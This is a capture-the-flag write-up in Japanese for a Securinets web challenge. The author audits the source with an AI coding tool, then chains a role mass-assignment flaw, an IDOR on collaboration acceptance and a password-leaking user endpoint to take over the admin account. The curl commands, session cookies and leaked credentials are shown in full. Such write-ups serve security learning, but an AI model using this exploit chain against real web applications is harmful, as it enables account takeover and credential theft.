







# Puzzle:Web:302pts
Solve without source if you're hardcore.  

[http://puzzle-c4d26ae9.p1.securinets.tn/](http://puzzle-c4d26ae9.p1.securinets.tn/)  

[Puzzle.zip](Puzzle.zip)  

# Solution
URLとソースコードが渡される。  
アクセスすると自然に関する物語を共有できるサイトで、LoginやRegisterができる。  
  
アカウントを作成しログインすると一度だけパスワードが表示される。  
今後はこれでログインすることになるようだ。  
  
物語を投稿することもでき、ユーザ名(自分自身含む)を指定してコラボレーションすることもできる。  
  
コラボレーションは自分自身の場合は`Accept`でき、他ユーザの場合はされるのを待つことになる。  
試しに`admin`をコラボ対象にすると、ユーザが存在した。  
  
次に以下のようなプロンプトで、Cursor (claude-4.5-connet)を用いてソースコードを脆弱性検査してみる。  
```
CTFのWeb問題です。配布されたソースコードをあなたに渡します。以下ディレクトリの脆弱性やアカウント侵害を調査して、CTF.mdファイルにまとめてください。
```
すると[CTF.md](CTF.md)のような脆弱性が検出された。  
`脆弱性1: Server-Side Template Injection (SSTI)`はadminである必要があり、`脆弱性2: SQL Injection`はlocalhostからのみ攻撃可能なようだ。  
`脆弱性3: 情報漏洩（パスワード露出）`を確認するため新たなアカウントを登録すると、実際にRegister時に`role=1`を加えることで`/users/{UUID}`が利用できるようになった。  
```bash
$ curl 'http://puzzle-c4d26ae9.p1.securinets.tn/users/f11d086e-b928-4500-952b-7be2c520e5a2' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
{"email":"satoki.satoki.satoki","password":"Ldko9Z1ECAMq","phone_number":null,"role":"1","username":"satoki00_role1","uuid":"f11d086e-b928-4500-952b-7be2c520e5a2"}
```
ちなみに、現状ではプロフィールから自身のUUIDがわかるのでそれを用いた。  
  
かなり便利な脆弱性ではあるが、adminのUUIDがわからないため、パスワードは取得できない。  
次に、`脆弱性6: /dbディレクトリの公開`にあるように`/db`にアクセス可能であり、`old.db`なるファイルもダウンロードできる。  
  
中身にはadminのパスワードハッシュが含まれていたため、rockyou.txtでクラックしたところ`pizzaguy`と分かったが、古い情報なのかログインに利用することができなかった。  
同様にadminのUUIDも含まれていたが、これも利用することができなかった。  
あきらめて別の手法でUUIDを探し回っていると、物語が`Accept`されて公開された場合に、コラボレーション相手のUUIDが含まれることを発見した。  
以下のように自分自身をコラボレーション相手に指定し、自身で`Accept`して公開した物語では、自身のUUIDが含まれている。  
```bash
$ curl 'http://puzzle-c4d26ae9.p1.securinets.tn/article/399e4a3f-e12f-4ea8-8f04-80bfb6db72ac' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
~~~
    <div class="container mt-5">
        <div class="card">
            <div class="card-body">
                <h1 class="card-title">Me</h1>
                <div class="text-muted mb-4">
                    <span class="d-none author-uuid">f11d086e-b928-4500-952b-7be2c520e5a2</span>

                    <span class="d-none collaborator-uuid">f11d086e-b928-4500-952b-7be2c520e5a2</span>

                    <!-- Author and collaborator info -->
                    <small>
                        Posted by satoki00_role1

                        in collaboration with satoki00_role1

                        on 2025-10-07 06:58:18
                    </small>
                </div>
                <div class="card-text">
                    Me
                </div>
            </div>
        </div>
~~~
```
つまり、adminとコラボレーションした自分自身の物語が`Accept`されれば、adminのUUIDが取得できる。  
もちろんadminがコラボレーションを`Accept`してくれるはずもない。  
ところで`Accept`する前の物語にも固有のIDが振られているが、これはコラボ相手が誰でも、特に秘匿されておらず`/collaborations`で確認できる。  
試しにこの固有のIDを使って、adminをコラボ相手とした物語を勝手に`Accept`してみる。  
```bash
$ curl -X POST 'http://puzzle-c4d26ae9.p1.securinets.tn/collab/accept/6fa8eed8-80e5-414b-a7ad-2ad8b406093d' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
{"message":"Collaboration accepted"}
```
するとすんなりと通ってしまった。  
これによって公開された物語を見ると、adminのUUIDを取得することができた。  
```bash
$ curl 'http://puzzle-c4d26ae9.p1.securinets.tn/article/a6cdd7b7-ad9f-44d6-934c-31b3c52ad950' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
~~~
    <div class="container mt-5">
        <div class="card">
            <div class="card-body">
                <h1 class="card-title">Admin</h1>
                <div class="text-muted mb-4">
                    <span class="d-none author-uuid">f11d086e-b928-4500-952b-7be2c520e5a2</span>

                    <span class="d-none collaborator-uuid">a8ec97ad-e893-4d4e-8613-c23bfb14671b</span>

                    <!-- Author and collaborator info -->
                    <small>
                        Posted by satoki00_role1

                        in collaboration with admin

                        on 2025-10-07 07:15:01
                    </small>
                </div>
                <div class="card-text">
                    Admin
                </div>
            </div>
        </div>
~~~
```
あとは`/users/{UUID}`を用いてadminのパスワードを取得することができる。  
```bash
$ curl 'http://puzzle-c4d26ae9.p1.securinets.tn/users/a8ec97ad-e893-4d4e-8613-c23bfb14671b' -H "Cookie: SRV=p2-1c9c9a9afd07712b; session=eyJ1dWlkIjoiZjExZDA4NmUtYjkyOC00NTAwLTk1MmItN2JlMmM1MjBlNWEyIn0.aOS0VA.QxjOxSDhu1hp-caD8Q1-MIiizZs"
{"email":"admin@securinets.tn","password":"Adm1nooooX333!123!!%","phone_number":"77777777","role":"0","username":"admin","uuid":"a8ec97ad-e893-4d4e-8613-c23bfb14671b"}
```
`Adm1nooooX333!123!!%`と分かったため、ログインする。  
  
adminになったのでSSTIが可能だが、あまりにブラックリストが厳しすぎる。  
ブラックリストが突破できないため、ほかに方策がないかソースを見ていると`/data`なる謎のadmin専用機能を発見する。  
  
アクセスするとパスワード付きの`secrets.zip`と`dbconnect.exe`なる怪しいファイルが取得できる。  
```bash
$ strings dbconnect.exe | grep pass
password = 'PUZZLE+7011_X207+!*'
$ unzip -P 'PUZZLE+7011_X207+!*' secrets.zip
Archive:  secrets.zip
 extracting: data.txt
$ cat data.txt
Securinets{777_P13c3_1T_Up_T0G3Th3R}
```
exeを`strings`するとパスワードが含まれおり、そのパスワードでzipを展開するとflagが格納されていた。  
あらゆるものがラビットホールの、よくわからない問題だった。  

## Securinets{777_P13c3_1T_Up_T0G3Th3R}